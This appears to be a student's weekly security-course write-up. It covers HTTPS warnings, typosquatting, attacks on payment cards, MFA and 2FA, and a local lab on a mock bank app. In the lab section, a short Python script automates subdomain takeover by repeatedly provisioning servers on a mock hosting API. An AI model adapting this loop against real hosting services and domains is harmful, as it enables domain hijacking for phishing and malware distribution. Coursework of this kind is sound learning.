



# WEEK 2

## Tasks

### Task 1A: Browsers and Banking Security

#### What does the "Not Secure" warning mean in the first picture and what risks does visiting sites with the warning pose?
The "Not Secure" warning mean that the website doesn't use a HTTPS connection. HTTPS connection permits to comunicate to the server with encypted messages. 
If the website doesn't use a HTTPS connection, our inputs and data that are sent to the server are in clear and with a simple attack such as a MITM (Man in The Middle) is possible to retrieve personal information.

#### Why does the second site show up as "trusted" to the browser?
The second site shows up as "trusted" because uses an HTTPS connection. Using it means that our data are encrypted and only the server has the key to decrypt it. This secure connection is through certificates called SSL/TLS (Secure Sockets Layer/Transport Layer Security).
When visit an HTTPS website, the data exchanged between the device and the website's server is encrypted. This means that even if someone intercepts the data while it's in transit, they won't be able to read it because of the encryption.

#### What other ways are there to detect a phishing/scam site?
Other ways to detect a phishing/scam site are:
1. Check the URL: some scam website's URL are similar to the URL we searched for. (e.g facabook, intsagram, ecc..)
2. Check subdomain: also subdomains can be hacked and used to create phishing/scam site
3. Where did you get URL from? Be aware where did you get URL. If you got from email or message be careful before open it

##### Are there any tools available online?
Yes. Online there are tons of tools to check phishing/scam site. Some tools works also with AI.
There are also extensions for browsers. 

#### What is typosquatting and how does it relate to the pictures?
Typosquatting is a tecnique that use the "error" of human brain to read what we want to read unstead of what is really written.
In few words typosquatting is a fake URL, similar to the right one. It is relate to the pictures because the first one is probably one attempt to create a scam site of danskebank.fi, infact the URL is fake because has two K at the end.
##### What is UDRP and how does it help with combatting typosquatting?
UDRP stands for Uniform Domain-Name Dispute-Resolution Policy.
It is a process from ICANN (Internet Corporation for Assigned Names and Numbers) for the resolution of disputes regarding the registration of domain names.
It help with combatting typosquatting because UDRP provides procedures for resolving disputes between trademark holders and domain name registrants. When a trademark owner believes that a domain name is too similar or confusely similar to their trademark and believes also that has been registered in bad faith, they can file a complaint under UDRP.
##### If you were to own the domain ouspg.org and would be running your crypto banking application at bank.ouspg.org, what domains could you monitor for warning signs of possible phishing attempts against your customers?
I will monitor al the domains similar to mine.
- ousgp.org
- ougsp.org
- ougps.org
- oupgs.org
- ousgs.org
- ousps.org
and so on...

### Task 2: Cards and Payments

#### Payments
#### Why do modern payment cards use a chip and not a magnetic stripe?
Modern payment cards use a chip instead of magnetic stripe because cloning of the chip is not feasible, only the magnetic stripe can be copied.
Chip cards generally have identical data encoded on the chip, which is read as part of the normal transaction process. 
If an EMV reader is compromised to the extent that the conversation between the card and the terminal is intercepted, then the attacker may be able to recover both the track-two data and the PIN, allowing construction of a magnetic stripe card.

#### What are EMV Certificates and why are they relevant for payment protection?
EMV certificates are used to verify the authenticity of payment cards 
""The EMV Certificate Authority issues digital certificates to payment card issuers. When requested, the payment card chip provides the card issuer's public key certificate and SSAD to the terminal. The terminal retrieves the CA's public key from local storage and uses it to confirm trust for the CA and, if trusted, to verify the card issuer's public key was signed by the CA. If the card issuer's public key is valid, the terminal uses the card issuer's public key to verify the card's SSAD was signed by the card issuer."" [link](wikipedia)
EMV certificates and this process are relevant for payment protection because they ensure the security of card-present transactions. By using cryptographic techniques and trusted certificates, EMV helps protect against fraudulent transactions. It's a more secure alternative to the older magnetic stripe technology, which was more susceptible to fraud and cloning.

#### What attacks exist against payment cards?
1. **Conversation capturing**:  refers to intercept, register or hacking into communication channels to retrieve sensitive information. It's really a general attack. 
""*... is a form of attack which was reported to have taken place against Shell terminals in May 2006, when they were forced to disable all EMV authentication in their filling stations after more than £1 million was stolen from customers.In October 2008, it was reported that hundreds of EMV card readers for use in Britain, Ireland, the Netherlands, Denmark, and Belgium had been expertly tampered with in China during or shortly after manufacture. For 9 months details and PINs of credit and debit cards were sent over mobile phone networks to criminals in Lahore, Pakistan. ... Data were typically used a couple of months after the card transactions to make it harder for investigators to pin down the vulnerability. After the fraud was discovered it was found that tampered-with terminals could be identified as the additional circuitry increased their weight by about 100 g. Tens of millions of pounds sterling are believed to have been stolen. This vulnerability spurred efforts to implement better control of electronic POS devices over their entire life cycle, a practice endorsed by electronic payment security standards like those being developed by the Secure POS Vendor Alliance (SPVA)*"" 
[EMV | successful attacks](https://en.wikipedia.org/wiki/EMV#Successful_attacks)

2. **MITM (Man-In-The-Middle)**: this attack is done when an attacker intercepts communication between two parties without their knowledge. In the context of payment cards, an attacker might insert themselves between the customer and the payment processor to capture sensitive information before it reaches its intended destination. It could be classified as a subgroup of conversation capturing.

3. **PIN harvesting**:  this method involves capturing the Personal Identification Number (PIN) associated to a payment card. Attackers might use cameras, skimming devices on PIN pads to record the PIN as customers enter it. Once obtained, the PIN can be used with stolen card data for transactions. 
"" *...In a February 2008 BBC Newsnight programme Cambridge University researchers Steven Murdoch and Saar Drimer demonstrated one example attack, to illustrate that Chip and PIN is not secure enough to justify passing the liability to prove fraud from the banks onto customers. The Cambridge University exploit allowed the experimenters to obtain both card data to create a magnetic stripe and the PIN.
...The fraud reported in October 2008 to have operated for 9 months (see above) was probably in operation at the time, but was not discovered for many months.* "" 
[EMV | PIN harvesting](https://en.wikipedia.org/wiki/EMV#PIN_harvesting_and_stripe_cloning)

4. **PIN bypass**: this attack aim to perform transactions without the need for the card PIN. For this can occur various vulnerabilities in POS systems, using stolen card data for **card-not-present** transactions where a PIN is not required, or conducting transactions within the card's **contactless** payment limit, which often does not require a PIN for small amounts.    

5. **ATM Skimming**: hackers may physically attack ATMs to access cash or compromise the machines to steal card information from users. It’s a way of stealing PINs and other information off credit cards and debit cards by rigging machines with hidden recording devices. 
""*In 2022, there were over 161,000 cards compromised due to skimming activity, according to data from FICO. That number increased nearly five times from the year before.*"" 
[source](https://www.bankrate.com/banking/what-is-atm-skimming/)

#### MFA
#### How is multi-factor authentication (MFA) used in banking?
The 3 basic elements of an MFA are something the user knows (i.e., a password or PIN), something the user has (i.e., a mobile device), and something the user is (i.e., like a fingerprint, or voice). Multi-factor authentication relies on the principle that a second or third authentication element will compensate for the weakness of the other element and vice-versa.

1. **User Authentication**: Username and Password. This is something the user knows.

2. **One-Time Password (OTP)**: It is generally a varchar string generated by a mobile app, sent via SMS, or provided by a hardware token. This one-time password serves as the second authentication factor. It's something the user has and is typically valid for a short period, so it is difficult for hackers to use stolen credentials.

3. **Biometric Authentication**: Sometimes it is also use biometric factors for authentication factor, such as fingerprint or facial recognition. This is something the user is, which adds an additional layer of security.

4. **Security Questions or Tokens**: It is possible also to use security questions or hardware tokens as part of the MFA process. Security questions are something the user knows, while hardware tokens are something the user has. (see [drawbacks](#Drawbacks))

5. **Time-Based Verification**: Certain MFA methods are time-based, generating a code that changes periodically, it is kind of subgroup of OTP. The user must enter the current code to complete the authentication process.

6. **Client-side Software Certificate**: This certificate is a digital form of identification issued to an individual or a device. They are synonim of strong security and hard management. (see [drawbacks](#Drawbacks))

7. **Confirmation Codes or Bio Auth for Transactions**: When initiating sensitive transactions, such as transferring money, the bank may send a confirmation code to the user or request a Bio Authentication to ensure the person is the sameone who logged in before. The user must enter the code or authenticate by fingerprint or facial recognition to authorize the transaction.

**Drawbacks** 
Several obstacles stop the widespread adoption of multi-factor authentication. First, some users struggle to manage hardware/software tokens or USB plugs. Additionally, many individuals lack the necessary technical expertise to independently install client-side software certificates. Furthermore, implementing multi-factor solutions for companies typically means additional upfront costs and ongoing maintenance expenses. Another challenge is in the proprietary nature of most hardware token-based systems, with certain vendors imposing annual user fees.

#### How does multi-factor authentication increase payment security?
MFA increase payment security because hackers must obtain more sensible information than username and password, to have the access.
Also the physical card plus PIN may aren't enough to do transfers. This could drastically reduce the frauds and the identity thief. 
""*However, many multi-factor authentication approaches remain vulnerable to phishing,man-in-the-browser, and man-in-the-middle attacks.
Two-factor authentication in web applications are especially susceptible to phishing attacks, particularly in SMS and e-mails, and, as a response, many experts advise users not to share their verification codes with anyone, and many web application providers will place an advisory in an e-mail or SMS containing a code.
Multi-factor authentication may be ineffective against modern threats, like ATM skimming, phishing, and malware.*"" 
[source](https://en.wikipedia.org/wiki/Multi-factor_authentication#Security)
#### What MFA methods are you using in you daily life?
In my daily life I use 
- OTP
- Biometric Authentication (also for Transactions)
- Client-side Software Certificate
#### What attacks exists against different forms of 2FA?

1. **SMS-based man-in-the-middle attacks**:
        The hacker intercepts the one-time password (OTP) or authentication code sent to a victim's mobile device via SMS.
        It may use techniques like SIM swapping or malicious software to gain access to the victim's SMS messages.
        Once they have the OTP, the attacker can impersonate the victim and gain unauthorized access to their accounts or systems.

2. **Mobile Number Transfer**: 
        For this attack it is needed moving a number from service to service. Australia was a prime early hunting ground for attackers who, after collecting the credentials of a target, were able to research the victim’s phone number, too. A call to the mobile carrier could get the phone number assigned to a phone that the attacker controlled. From then on, all 2FA codes were intercepted by the attackers, and the victims often had no idea—they woke up the next day and their phones didn’t work.

3. **Interception at Mobile Operator**: 
        Attackers get access to 2FA codes through the mobile operator’s customer portal. All the attacker needs to intercept the 2FA code is to log into the user’s mobile account and see the code among the stored text messages.

4. **Pass-the-cookie attacks**:
        Theese attacks are a type of session hijacking where an attacker steals a user's session cookie.
        Session cookies are used to authenticate users to a website or application without requiring them to re-enter their credentials.
        If an attacker gains access to a valid session cookie, they can impersonate the user and potentially perform malicious actions on their behalf.

5. **Server-side forgeries**:
        Is where an attacker tricks a server into accepting forged or malicious requests.
        Attackers manipulate data sent to a server to exploit vulnerabilities or gain unauthorized access to resources.
        Techniques like Cross-Site Request Forgery (CSRF) are examples of server-side forgery attacks. An attacker tricks a user into making a request to a different website.

### Task 4
#### Task 1: Find out what the application does when you log in
##### What methods get called and where?  
There are some **GET** and some **POST** methods that are called.
Here's the screenshot.

##### What data gets saved?
It gets saved the bank-session cookie

##### Is any data sent to external services?        
Yes, analyzing the requests and also the js code in the debugger section we can see that data are sent (or at least are tried to send) to these pages: 
- analytics.bank.ouspg.org.localhost:8080
- rss.bank.ouspg.org.localhost:8080
- bss.bank.ouspg.org.localhost:8080
- mail.bank.ouspg.org.localhost:8080
- feed.bank.ouspg.org.localhost:8080
- check.bank.ouspg.org.localhost:8080
- quest.bank.ouspg.org.localhost:8080

##### Is there anything hazardous about the login process?
Yes, there are some problems in the login process. Firstly the data are sent in json, so if there is a MITM, it could read all the sensible information.
Secondly there is no validation of inputs. This means that is possible to do a [XSS attack](https://en.wikipedia.org/wiki/Cross-site_scripting). 

#### Task 2: Figure out which subdomain of the application is vulnerable to takeover

##### How did you figure out the domain?
I searched all the subdomain where the data are sent and then I found that one of them is open. I saw that everytime I turn down and up docker the subdomain vulnerable to takeover changes.

##### How can you find out the hosting provider after finding out the domain?
After found out the subdomain I analyzed its requests and I found that there is a link to the hosting provider in the header of a GET request.  

#### Task 3: Taking over the domain

Create a script to automatically provision servers until you get the desired domain by utilizing the underlying API of the management portal:

        import requests as r
        import time

        server_url = "http://hosting-provider.org.localhost:8080/servers"
        hj_url = "http://quest.bank.ouspg.org.localhost:8080"

        ip_created = ""
        while(ip_created == ""):
            response = r.post(server_url)
            if response.status_code == 201:
                ip_created = response.headers.get('Server-Ip')
                print("Created: " + ip_created)
                time.sleep(4)
                response_hj = r.get(hj_url)
                content_type = response_hj.headers.get('content-type', '').lower()
                if 'application/json' in content_type:
                    print("IP FOUND: ", ip_created)
                else:
                    r.delete(server_url + "?ip=" + ip_created)        
                    print("Delete: " + ip_created)
                    ip_created = ""    

### Task 4: Non technical

#### Summarize what is subdomain takeover and what measures can an organization take to protect itself from it (max 250 words)

Subdomain takeover is a threat that exposes domains to various risks, including phishing attacks and malware distribution. This vulnerability is caused primarily from misconfigurations in older services associated with subdomains.

To protect organization from subdomain takeovers they could maintain constant vigilance over all subdomains connected to the primary domain. Regular scans and monitoring can detect unauthorized or old subdomains that may be used for exploitation and for the attack. Detected this subdomains they must remove and delete the ones that are no longer in active use. Old subdomains are particularly susceptible to takeover attempts and should be retired promptly.

They have to ensure that the DNS records are precise, and implement stringent authentication and access controls to deter unauthorized alterations or takeovers.
It is recommended to track also DNS changes and configure alerts for any unusual modifications. This real-time monitoring can help to respond swiftly to suspicious activities and counteract takeover attempts before they escalate.

Do regularly schedule comprehensive security audits, which should include thorough assessments of subdomain security. These audits helps to pinpoint vulnerabilities and ensure that protective measures remain up to date.